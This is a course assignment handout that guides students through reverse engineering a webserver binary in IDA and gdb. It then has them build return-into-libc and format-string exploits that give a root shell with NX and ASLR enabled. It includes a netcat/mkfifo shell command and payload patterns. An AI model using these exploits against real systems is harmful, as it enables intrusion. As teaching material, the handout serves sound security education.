





Due: Thursday, October 30, 2014, 23:59
Unlike the previous project where you were given access to the source code of the target programs, for this project, you will have to find the vulnerabilities using only the binary, IDA Pro, and gdb.
All work in this project must be done on the VirtualBox virtual machine provided on the course website; see below for information about this environment.
You are given a single server binary which is a very simple webserver. The server program takes an optional argument specifying the port it listens to. It defaults to port 80 which requires root privileges:
user@sandbox:~/project2$ cd webroot user@sandbox:~/project2/webroot$ sudo ./server # Or user@sandbox:~/project2/webroot$ ./server 8080
Your goal is to write two exploit programs: sploit1 and sploit2 to get a remote shell from the webserver.
For sploit1, you will modify the environment (described below) to disable executing code on the stack.
For sploit2, you will modify the environment again (also described below) to enable address space layout randomization (ASLR).
For both exploit programs, you should ensure that your attack works both when the server is launched as sudo ./server and as ./server 8080 from inside the project2/webroot directory.
Some sample code is provided in the form of fetchfile.c which, when compiled and run as ./fetchfile localhost 8080 /index.html, for example, will connect to the webserver and download the file index.html, displaying the raw server output to stdout.
Both of your exploit programs are expected to run from inside the VM (so that we have a consistent environment to test). This is most easily accomplished by configuring VirtualBox to forward a port so that you can ssh into the VM. Directions are given below.
You (and we, for grading) will test your exploit programs within a VirtualBox virtual machine. To use this VM on your personal computer (Windows, Mac OS X, and Linux are supported), you will need to download the virtual machine image provided on the course website — sandbox-1.1.ova — as well as VirtualBox from the VirtualBox website. This is the same virtual machine image you used in the previous project. If you still have it, you do not need to download it again.
We have also arranged for VirtualBox to be installed on the Windows machines in Maryland 310.
1. Get the sandbox virtual machine (the same one we used for project 1).
2. Turn on PAE/NX by shutting down the virtual machine and going to Settings > System > Processor and clicking “Enable PAE/NX”.
3. Go to Settings > Network > Adapter 1 > Port Forwarding and forward a port from the host machine to port 22 in the guest:
|  |
4. Download and unpack project2.
user@sandbox:~$ wget http://www.cs.jhu.edu/~s/teaching/cs460/2014-fall/project2.tar.gz user@sandbox:~$ tar zxf project2.tar.gz
1. Open the server binary in IDA.
|  |
2. With the main window selected, press spacebar to toggle between graph view and linear view.
3. In the Functions window, double clicking on the name of a function jumps the main window to that function.
4. Double click on start to move to the start function.
|  |
5. The first argument to __libc_start_main is the main function.
6. Select sub_8049DCB by clicking on it. Let's name it main by pressing n to rename it.
7. This has updated our functions list in the Functions window. Examine the main function by double clicking on its name, either in the Functions window or in the assembly listing.
8. If you are not currently in the graph view, press the spacebar to enter it. Scroll around the control flow graph either by clicking and dragging in the graph overview window or in the space between functions in the main window. The colored arrows have the following meanings:
Blue: unconditional jump
Green: conditional jump taken
Red: conditional jump not taken
9. Let's take a look at the code surrounding the call to _socket.
|  |
We can immediately see that the assembly was produced from code similar to the following:
sock = socket(2, 1, 0);
if (sock == -1)
{
perror("sock = socket(PF_INET, SOCK_STREAM, 0)");
exit(1);
}
Notice that the error message contains the symbolic constants used although the code only contains the numeric values.
10. If we are so inclined, we can have IDA replace the numeric values with the constants. First, select the domain parameter, 2, by clicking on it. Right clicking opens a contextual menu. Select “Use standard symbolic constant” and then select PF_INET from the list. Similarly, select SOCK_STREAM for the type parameter. In general, we won't have error messages that tell us what the constants we want are. In that case, we can look through the manual page for a given function to see in which system header file it is defined and then look through the header file to find the value of the constant. IDA does a good job of only suggesting constants with the appropriate numerical value, most of the time.
11. Identify the loop in the main function. Loops can easily be identified in the graph view by arrows that point toward earlier blocks of code. Clicking on a jump target will also highlight the label.
In addition to calling standard library functions, each pass through the loop calls a function in the server binary. Since this is a webserver, we can surmise that this function is responsible for handling web clients (i.e., browsers). Rename this function from sub_… to handle_client the same way we did with main.
12. Let's identify the two arguments to handle_client. Start by selecting ebx in the mov [esp], ebx instruction just before call handle_client. All instances of ebx are highlighted in the assembly. Looking up the code, we see that ebx is set most recently by the return value of the accept function. By checking the manual page for accept, we see that it returns a file descriptor (an integer) corresponding to the newly opened socket. So the first argument to handle_client is the socket, which makes sense.
The second argument to handle_client, which is passed in [esp+4], comes from esi. By selecting esi, we see that it is used in several places but it is only assigned once via the lea instruction following the call to listen. esi is set to an address on the stack, namely esp+28h. We see that this address is passed as the buf argument to inet_ntop. The manual page reveals that inet_ntop writes a string containing the address to the buf argument.
Slightly more cryptically, but if inet_ntop does not return 0, then the 4 byte word 0x0000002D is written to the first word of buf. Recall that x86 is little endian so this is stored as 0x2D, 0x00, 0x00, 0x00 in memory. By selecting the 2Dh and pressing r, we see that 0x2D is the hyphen character ‘-’. Thus if inet_ntop does not return 0, then the address is set to be “-”.
13. Finally, double click on handle_client. At the beginning of the function, IDA has declared a bunch of symbols like var_1120. These are what IDA thinks are local variables on the stack. Some of them have names already corresponding to arguments of standard library functions that IDA knows about. We can change these names as we see fit.
In addition to local variables, IDA can deduce information about function arguments. In particular, it knows that handle_client takes two arguments, but it thinks both are ints. We can change this by selecting handle_client and pressing y and giving handle_client the prototype:
void handle_client(int sock, const char *address)
After doing this, notice that the arguments have been named sock and address, similar to the local variables.
We could, if we wanted, spend a lot of time working out how each function works but our goal is not to understand the complete inner workings of the program. Rather, our goal is to find a way to exploit it.
1. Let's begin by finding usage of functions which are prone to errors. Let's start by finding all instances of strcpy. In the Functions window, double click on _strcpy. (As an aside, what IDA calls _strcpy is what gdb calls strcpy@plt. We'll come back to this later.) If you are in “graph view,” press the spacebar to return to “text view.” From the comment CODE XREF: sub_8049214+33, we can see that strcpy is called from exactly one location.
|  |
2. Double click on sub_8049214 to be taken to that function. We can see that the destination argument to strcpy comes from the return value of sub_8048EF9 and by tracing the source argument back, we see that it is the first (and only) argument to sub_8049214.
3. Examine function sub_8048EF9. From a quick inspection, it should be clear that this function calls malloc, passing its only argument and then asserts that the returned value is not NULL. From the argument to the __assert_fail function, we can see that sub_8048EF9 is actually named xmalloc. Rename sub_8048EF9 to xmalloc. This way, if we see it again, we'll immediately remember what it does.
4. Go back to sub_8049214 (by pressing esc or by hitting the back arrow in the toolbar). At this point, it's clear that the function argument is a string that gets copied to some memory allocated on the heap. Furthermore, we can tell that a pointer to this memory is returned. All that remains is to figure out if it's allocating enough memory to hold the entire string. The few instructions before and after the repne scasb are actually computing the length of the string plus 1 and passing that to malloc. To see that, look up the definition of scasb, repne, and not and recall that integers are stored in twos complement.
Since enough space is allocated to hold the contents of the string and malloc is asserted to not return NULL, this strcpy does not appear to be exploitable.
5. It's worth noting that this function behaves very similar to the standard library function strdup in that it takes a string as an argument and then creates a copy of it, returning the copy. Rename the function xstrdup (in analogy with xmalloc).
6. Follow the same procedures to check for the presence of other potentially exploitable functions such as memcpy or strcat. By default IDA only displays 2 cross references. It's helpful to increase this number. Look in Options > General… > Cross-references and increase the number of displayed xrefs to 200. This should be far more than we need.
7. You should be able to find several buffer overflows on the stack. Which functions have overflows and what input do we need to send over the socket to trigger them?
Since the stack is not executable, we are not able to inject code onto the stack. We will need to try something else.
We're going to perform a return-into-libc attack by smashing the stack in one of the error handling functions. From the last section, you should have discovered a buffer overflow on the stack when handling an incorrect HTTP version (as well as a few other places).
1. Run
$ sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
This VM is configured to have ASLR enabled by default. This command will disable ASLR until either you restart the VM or you write 2 to /proc/sys/kernel/randomize_va_space.
2. Make a copy of fetchfile.c and name it sploit1.c.
3. A valid HTTP request line looks like:
GET /path/to/file HTTP/1.1
Modify sploit1.c to hard code a request for an arbitrary file (you can use “/” for the file, if you'd like) and a short, invalid HTTP version string. When the program is run, what is the result? What about a long, invalid HTTP version string?
4. Compute the distance on the stack from the saved instruction pointer to the location where the version is written to the stack. This can be computed directly from the disassembly or you can use gdb.
5. Produce a request string that overwrites the saved eip on the stack with an arbitrary value.
6. Find the address of the exit function in libc (gdb works nicely here) and craft input that will overwrite the saved eip with that address.
7. When you run the exploit, the server will likely crash before it returns to exit. Look carefully at the what happens after you overwrite the saved eip. In particular, some other values that are subsequently used as pointers are overwritten as well. Modify your exploit to overwrite those values with valid addresses. Addresses on the stack work very well.
8. Find the address of the system function in libc. Modify the exploit such that instead of returning to exit, it returns to system. The argument to system should be a pointer to a string that contains:
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -l localhost 1234 >/tmp/f;rm -f /tmp/f
This rather cryptic command can be understood by writing it in a more familiar format:
rm -f /tmp/f mkfifo /tmp/f cat /tmp/f | /bin/sh -i 2>&1 | nc -l localhost 1234 > /tmp/f rm -f /tmp/f
The mkfifo command makes a named pipe into which the nc command will write its output and from which sh will read its input. If you're not familiar with the netcat tool, read the man page. What this particular command will do is it will listen on port 1234 and on a connection, it will launch sh.
Since you don't know exactly where on the stack this string will live, you can prepend it with a large number of spaces, similar to a nop sled. Take care that any text after the string is ignored.
After sploit1 sends the exploit string to the server, it should close the socket, sleep for a second (just to give the server process time to run and launch nc), and finally execute nc. The last 5 lines of my sploit1's main function are
sendn(sock, request, strlen(request));
close(sock);
sleep(1);
execl("/bin/nc", "/bin/nc", argv[1], "1234", NULL);
_exit(1);
If the server is launched as root,
$ sudo ./server
then when I run sploit1, a prompt is printed, and I can run shell commands and the response will be sent back:
$ ./sploit1 localhost 80 # whoami root # exit
Your sploit1 should behave the same way.
For the second exploit, the goal is the same (get a remote shell) but we're going to turn on address space layout randomization (ASLR).
1. Run
$ sudo sh -c 'echo 2 > /proc/sys/kernel/randomize_va_space'
This will reenable ASLR if you have not restarted the VM since you disabled it for sploit 1.
Now, if we run the server and sploit1, the server will crash because we relied on the address of system and the address of our string on the stack. We're going to need to perform an address disclosure attack to learn where the stack is and where libc is loaded.
2. Examine the four calls to snprintf in IDA, three of them have constant format strings, one does not. Start the server in gdb. Set a breakpoint just prior to the call to the snprintf that does not have a constant format string and use gdb to print the format string.
3. Use fetchfile to provide input which can be used for the format string. Try giving it file paths of the form: ZZZZ%1$08x-%2$08x-%3$08x and then change the 1, 2, and 3 to 4, 5, and 6 and so on until you find the value ZZZZ. You'll be able to see the output by watching stdout of server. Naturally, this information won't be available to a real client, but we will deal with that later.
4. Double clicking on _snprintf in IDA shows the implementation in the plt section:
jmp ds:off_804B7E4
Although it may not be obvious, this is actually an indirect jump to an absolute address. That is, address 0x0804b7e4 contains a pointer to the actual snprintf function which is set by the dynamic linker after snprintf is called for the first time.
5. Copy fetchfile.c to sploit2.c. Modify sploit2.c so that it tries to fetch a file that contains a format string exploit. This time, instead of ZZZZ%n$08x for some value of n, replace the ZZZZ with the address 0x0804b7e4 (in little endian) and replace the 08x with s. This should cause the server to treat that address as a pointer to a string and print the string. The first four bytes of which should be the address of snprintf.
6. Now modify the file string to addr%m$08x%n$s where addr and n are the values from step 5 and m is chosen such that it prints out the saved frame pointer (ebp) in hex. Hint: rather than just trying value after value like we did to find the ZZZZ, look at the lea instruction just above the call to _snprintf to find the start of the buffer.
7. In addition to writing the connection information to stdout, the server logs the same information to server.log. Since this is written in the same directory as server, we can fetch it using a normal HTTP GET.
Change sploit2.c to make two requests. The first exploits the format string vulnerability to write the address of the saved ebp in hex and the address of snprintf to server.log and the second fetches /server.log.
8. Read the fetched server.log line by line until you get to the end. Hint: Using code like
FILE *fp = fdopen(sock, "r"); char line[2][1024]; int which = 0; while (!feof(fp) && !ferror(fp) && fgets(line[which], 1024, fp)) which = !which; which = !which; fclose(fp);
puts the final line read from the socket in line[which].
9. Parse the 8 byte hex string that is the saved frame pointer and the 4 byte integer that is the address of snprintf out of the last line read from the socket.
10. Add your exploit from sploit1.c to sploit2.c but make sure you adjust the address of system, exit, and the pointers to the stack appropriately. Now that you know a stack address, you can compute exactly which address the argument to system should be. Remove the “space sled” that we used for sploit1 since it is unnecessary.
11. You should now be able to start the server as root and get a remote, root shell by running sploit2 even though the process is protected by ASLR! Congratulations!
You are to provide a tarball (i.e., a .tar.gz or .tar.bz2 file) containing sploit1.c and sploit2.c:
user@sandbox:~/project2$ tar zcf p2.tar.gz sploit1.c sploit2.c
We should be able to build and run your exploits without error or warning by running:
user@sandbox:~/project2$ tar zxf p2.tar.gz user@sandbox:~/project2$ gcc -Wall -Werror -std=c99 -o sploit1 sploit1.c user@sandbox:~/project2$ ./sploit1 localhost 80 user@sandbox:~/project2$ gcc -Wall -Werror -std=c99 -o sploit2 sploit2.c user@sandbox:~/project2$ ./sploit2 localhost 80
(Of course, sploit1 will not work with ASLR enabled.)
One of the functions you want to return to has an address that ends in 0x00. Try looking backward several bytes from the start of the function to see if you can return there instead.